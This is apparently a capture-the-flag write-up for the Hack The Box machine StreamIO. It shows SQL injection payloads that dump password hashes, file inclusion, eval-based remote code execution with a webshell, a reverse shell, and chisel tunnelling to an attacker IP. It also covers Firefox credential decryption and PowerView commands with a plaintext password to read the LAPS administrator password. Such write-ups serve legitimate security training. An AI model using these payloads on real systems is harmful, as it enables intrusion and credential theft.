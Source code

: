 # StreamIO

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (71) (1).png" alt=""><figcaption></figcaption></figure>

### HTTPS Cert

On port 443, we can head to the website to find some kind of streaming platform.

<figure><img src="../../../.gitbook/assets/image (64) (1).png" alt=""><figcaption></figcaption></figure>

Checking the cert, we can find another domain name:

<figure><img src="../../../.gitbook/assets/image (31) (2).png" alt=""><figcaption></figcaption></figure>

We can add this domain to our `/etc/hosts` files. Another notable thing we found was the login function on the main domain.&#x20;

### SQL Injection

The new domain leads us to a different website.

<figure><img src="../../../.gitbook/assets/image (46) (1) (2).png" alt=""><figcaption></figcaption></figure>

The page was written in PHP (visiting index.php brings us to home page), thus we can fuzz possible endpoints with the `.php` extension using `gobuster -x` flag.

<figure><img src="../../../.gitbook/assets/image (72) (1).png" alt=""><figcaption></figcaption></figure>

Within `search.php`, we can find a query function.

<figure><img src="../../../.gitbook/assets/image (23) (4) (1).png" alt=""><figcaption></figcaption></figure>

This was vulnerable to SQL Injection, and the payload `a' union select 1,2,3,4,5,6;-- -` works. From here, we can enumerate out the users and tables present in the website.

<figure><img src="../../../.gitbook/assets/image (56) (1).png" alt=""><figcaption></figcaption></figure>

Using the STREAMIO database, we can dump out the tables present:

<figure><img src="../../../.gitbook/assets/image (1) (8).png" alt=""><figcaption></figcaption></figure>

Then, we can take a look at the users table. This can be done using `a' union select 1, concat(username, ':', password), 3,4,5,6 from users; -- -`.&#x20;

<figure><img src="../../../.gitbook/assets/image (54) (1).png" alt=""><figcaption></figcaption></figure>

After getting all the credentials, we can crack the hashes and then brute force the `login.php` page we found earlier on `streamio.htb`. The user `yoshihide` and his password works!

### Debug Fuzz

Within the admin dashboard, we can see a few functionalities that cause a unique parameter of `?staff=` to be passed.&#x20;

<figure><img src="../../../.gitbook/assets/image (3) (6).png" alt=""><figcaption></figcaption></figure>

I found this rather interesting, and wanted to fuzz this more. I was able to find another `debug` endpoint using `wfuzz`.

<figure><img src="../../../.gitbook/assets/image (41) (3).png" alt=""><figcaption></figcaption></figure>

I also used `gobuster` to see what other files were present on this directory.

<figure><img src="../../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

`master.php` was the most unique.

### Eval RCE

Within the debug page, there isn't much visual difference apart from one line:

<figure><img src="../../../.gitbook/assets/image (35) (4).png" alt=""><figcaption></figcaption></figure>

Because this page was in PHP, I tested the `debug` parameter with a common `php://filter` LFI exploit, and this worked!

<figure><img src="../../../.gitbook/assets/image (22) (1) (2).png" alt=""><figcaption></figcaption></figure>

We can then take a look at that `master.php` file we found earlier. The last bit was the most interesting.

<pre class="language-php"><code class="lang-php">&#x3C;?php
if(isset($_POST['include']))
{
    if($_POST['include'] !== "index.php" ) 
        eval(file_get_contents($_POST['include']));
else
<strong>    echo(" ---- ERROR ---- ");
</strong>}
?> 
</code></pre>

The `eval()` function was being used, and this was definitely vulnerable to some kind of RCE. So to construct the attack, we can attempt to upload a `cmd.php` webshell via encoding with base64 and then send it via a POST request with an `include` parameter.&#x20;

We can send this request here:

<figure><img src="../../../.gitbook/assets/image (9) (1) (6).png" alt=""><figcaption></figcaption></figure>

And we finally have RCE on the machine. Then, we can gain a reverse shell via `nc.exe`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (7).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We don't have much control over the machine with this user, so we need to find another.

### MSSQL

When checking `netstat`, we can find a service listening on port 1433 that was not detectable earlier from our Kali machine.

<figure><img src="../../../.gitbook/assets/image (75) (3).png" alt=""><figcaption></figcaption></figure>

Also, we can head to the `inetpub` folder to find credentials, of which we do within the `index.php` file:

<figure><img src="../../../.gitbook/assets/image (18) (1) (4).png" alt=""><figcaption></figcaption></figure>

We can then port forward via `chisel`.&#x20;

```bash
# on Kali
./chisel server -p 8000 --reverse

# on Victim
.\chisel.exe client 10.10.16.12:8000 R:1433:127.0.0.1:1433
```

Using `mssqlclient.py`, we can access the database with the credentials we found.

<figure><img src="../../../.gitbook/assets/image (36) (3).png" alt=""><figcaption></figcaption></figure>

I took a look at the streamio\_backup database and found credentials for a `nikk37` user.

<figure><img src="../../../.gitbook/assets/image (38) (4).png" alt=""><figcaption></figcaption></figure>

The hash can be cracked via crackstation.

<figure><img src="../../../.gitbook/assets/image (30) (3).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as this user:

<figure><img src="../../../.gitbook/assets/image (37) (4).png" alt=""><figcaption></figcaption></figure>

### Firefox Passwords + Bloodhound

When I ran WinPEAS on this machine, it picked up on a Firefox credential file. We can use `firepwd.py` to decrypt the passwords.

<figure><img src="../../../.gitbook/assets/image (49) (1) (2).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/lclevy/firepwd/blob/master/firepwd.py" %}

Upon decrypting the `logins.json` file, we can find some more passwords.

<figure><img src="../../../.gitbook/assets/image (69) (1).png" alt=""><figcaption></figcaption></figure>

Since we had credentials, I also ran a `bloodhound-python` to enumerate the objects within the host.

<figure><img src="../../../.gitbook/assets/image (44) (1) (2).png" alt=""><figcaption></figcaption></figure>

Found that the `jdgodd` user had some permissions over the Core Staff group.

<figure><img src="../../../.gitbook/assets/image (45) (1) (2).png" alt=""><figcaption></figcaption></figure>

And members of this Core Staff were able to ReadLAPSPassword for the DC.

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

### ReadLAPSPassword

To exploit this, we would first need to add the `jdgodd` user into the Core Staff group, and then read the administrator password.

The adding can be done via remote Powershell and Powerview using the credentials we found from Firefox earlier for `jdgodd`.&#x20;

```powershell
$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('streamio\JDgodd', $SecPassword)
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -principalidentity "streamio\JDgodd"
Add-DomainGroupMember -Identity "Core Staff" -Members 'streamio\JDgodd' -Credential $Cred
```

<figure><img src="../../../.gitbook/assets/image (58) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can use `crackmapexec` modules to read the LAPS password.

<figure><img src="../../../.gitbook/assets/image (14) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

Then, we can `evil-winrm` in as the administrator.

<figure><img src="../../../.gitbook/assets/image (48) (1) (2).png" alt=""><figcaption></figcaption></figure>
